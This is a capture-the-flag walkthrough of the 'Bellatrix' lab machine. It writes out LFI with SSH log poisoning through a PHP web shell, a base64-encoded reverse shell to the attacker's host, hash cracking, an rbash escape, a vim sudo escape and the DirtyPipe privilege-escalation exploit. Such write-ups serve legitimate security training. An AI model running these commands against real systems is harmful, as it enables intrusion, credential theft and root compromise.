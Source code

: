 # Bellatrix
## User flag

As always let's see the open ports

```shell
 nmap -n -p- -Pn -sS --min-rate 5000 -oN allports 192.168.1.40
 PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Now let's do a in depth scan of those ports

```shell
nmap -sCV -p80,22 -oN targeted 192.168.1.40
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4b:ce:c7:5a:9c:1f:8b:cd:47:03:08:69:85:c2:91:49 (RSA)
|   256 a1:2a:a8:15:99:04:cc:2a:1e:e3:50:00:f3:55:c2:cc (ECDSA)
|_  256 2c:d3:ec:6f:4f:5b:4a:e0:ea:0a:c3:0d:2f:cb:78:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: AvadaKedavra
|_http-server-header: Apache/2.4.46 (Ubuntu)
```

Nothing meaningful so far let's see the web. Now we have two huge hints we have a domain at the end of the text "ikilledsiriusblack.php" and a possible LFI in that page by looking at the php code on the left corner.

Thats right by going to the php domain and adding ?file we can read files from the system. The obvious step now is to get RCE with log poisoning so I started looking for apache logs everywhere but I couldn't find any. However I managed to found ssh logs at /var/log/auth.log so I injected php code by connecting as a php command like this

```shell
ssh '<?php system($_GET[c]); ?>'@192.168.1.40
```

Just enter whatever password you wish because the idea of this is injecting code on the log. Now if we also call the attribute c we can execute commands ex: ` http://192.168.1.40/ikilledsiriusblack.php?file=/var/log/auth.log&c=ls ` by pressing crtl+u we can see the response more clearly (at least in chrome). Ok let's just inject the base64 shell then in my case `echo "c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjEzLzc3NzcgMD4mMQo=" | base64 -d | bash`

```shell
 nc -lvp 7777
Connection from 192.168.1.40:49022
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@bellatrix:/var/www/html$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~/htb/bellatrix/scan]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777

www-data@bellatrix:/var/www/html$ stty rows 30 columns 132
www-data@bellatrix:/var/www/html$
```

We have a directory called secrets in base64 and inside we have the password hash of the user lestrange and a dictionary.

```shell
secretswww-data@bellatrix:/var/www/html$ cd c2VjcmV0cw\=\=/
www-data@bellatrix:/var/www/html/c2VjcmV0cw==$ ls -la
total 16
drwxr-xr-x 2 root root 4096 Nov 28  2020 .
drwxr-xr-x 3 root root 4096 Nov 28  2020 ..
-rw-r--r-- 1 root root 1237 Nov 28  2020 .secret.dic
-rw-r--r-- 1 root root  117 Nov 28  2020 Swordofgryffindor
www-data@bellatrix:/var/www/html/c2VjcmV0cw==$ cat Swordofgryffindor
lestrange:$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0
```
once cracked the password is

```shell
hashcat -m 1800 hash dict --show
$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0:ihateharrypotter
```

Once logged as the new user we have a restricted shell called rbash but we can easily break out like this

```shell
lestrange@bellatrix:/var/www/html/c2VjcmV0cw==$ cd
rbash: cd: restringido
lestrange@bellatrix:/var/www/html/c2VjcmV0cw==$ bash
lestrange@bellatrix:/var/www/html/c2VjcmV0cw==$ cd
lestrange@bellatrix:~$
```

Next step is clear when executing sudo -l

```shell
lestrange@bellatrix:/var/www/html$ sudo -l
Coincidiendo entradas por defecto para lestrange en bellatrix:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario lestrange puede ejecutar los siguientes comandos en bellatrix:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

let's execute a shell with vim as bellatrix

```shell
sudo -u bellatrix vim -c ':!/bin/sh'
:!/bin/sh
$ bash
bellatrix@bellatrix:/var/www/html$
```
 When executing the command a weird pseudo shell spawns but by typing bash we can once again break out. Now we can get the user flag

```shell
bellatrix@bellatrix:/var/www/html$ cd
bellatrix@bellatrix:~$ cat flag.txt
```

## Root flag

For a better workflow I created an ssh key pair and added my public key to the authorized keys however this is optional. After some time lost I decided to execute linpeas and I realize that the user is part of the lxd group however lxc wasn't installed. So my next idea is to try the dirty pipe exploit, I used this [repo](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits) modified the compile.sh to add --static to both lines and tried the exploits, exploit-1 didn't work but exploit-2 did.


```shell
bellatrix@bellatrix:/dev/shm$ ./exploit-2 /usr/bin/mount
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
# cat /root/root.txt
 ____       _ _       _        _
 |  _ \     | | |     | |      (_)
 | |_) | ___| | | __ _| |_ _ __ ___  __
 |  _ < / _ \ | |/ _` | __| '__| \ \/ /
 | |_) |  __/ | | (_| | |_| |  | |>  <
 |____/ \___|_|_|\__,_|\__|_|  |_/_/\_\




  _               _
 | |             | |
 | |     ___  ___| |_ _ __ __ _ _ __   __ _  ___
 | |    / _ \/ __| __| '__/ _` | '_ \ / _` |/ _ \
 | |___|  __/\__ \ |_| | | (_| | | | | (_| |  __/
 |______\___||___/\__|_|  \__,_|_| |_|\__, |\___|
                                       __/ |
                                      |___/


```

For me this machine is very easy as the Dobby one it only adds more steps but none are difficult to achieve, however I reckon that this machine is really useful to practice a lot of skills.

(EDIT): Hey the last step wasn't needed for root flag, as the machine was in Spanish I though that when I executed sudo -l it meant you could execute this command as bellatrix but bellatrix is also the name of the machine. So you can just go from lestrange to root without dirty pipe. And that's why sometimes you have to read carefully! Anyway great machine over all.
